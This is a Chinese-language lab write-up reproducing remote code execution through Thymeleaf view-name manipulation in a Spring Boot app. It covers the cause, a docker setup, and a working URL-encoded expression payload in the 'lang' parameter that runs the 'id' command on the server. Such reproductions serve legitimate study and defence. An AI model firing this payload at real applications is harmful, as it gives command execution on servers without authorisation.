

# Thymeleaf 视图名操纵导致远程代码执行

Thymeleaf 是一个服务端 Java 模板引擎，常与 Spring MVC 和 Spring Boot 应用一起使用。

当 Spring MVC 控制器返回 `String` 时，除非处理方法使用 `@ResponseBody` 或返回 redirect 视图，Spring 会将这个字符串当作视图名处理。Thymeleaf 在解析模板前会把视图名作为片段表达式解析。如果不可信输入被拼接进返回的视图名或片段选择器中，攻击者就可以注入 Thymeleaf 预处理表达式并执行任意 Java 代码。该问题影响使用 Spring MVC 与 Thymeleaf、且控制器返回的视图名包含攻击者可控数据的应用；Veracode 的研究样例使用 Spring Boot 2.2.0.RELEASE 与 Thymeleaf 3.0.11.RELEASE 演示了这一模式。

参考链接：

- <https://github.com/veracode-research/spring-view-manipulation/>
- <https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/>
- <https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html#expression-preprocessing>

## 环境搭建

执行如下命令启动一个使用 Thymeleaf 的 Spring Boot 2.2.0 应用：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8090` 即可看到示例 Thymeleaf 页面。

## 漏洞复现

`/path` 接口会返回 `user/` 加上 `lang` 参数再加上 `/welcome` 作为视图名。正常请求 `http://your-ip:8090/path?lang=en` 会渲染 `templates/user/en/welcome.html` 模板。

接下来，将 Thymeleaf 预处理表达式放入 `lang` 参数。下面的表达式会执行无害的 `id` 命令，并读取输出中的第一个 token。由于 payload 在 Thymeleaf 解析模板前已经进入视图名，表达式会在服务端被求值：

```
GET /path?lang=__%24%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7D__::.x HTTP/1.1
Host: your-ip:8090


```

HTTP 响应会返回 Thymeleaf 模板解析错误，但生成的模板名中会出现已求值的 `id` 命令输出，这说明命令已经在目标服务器上执行。


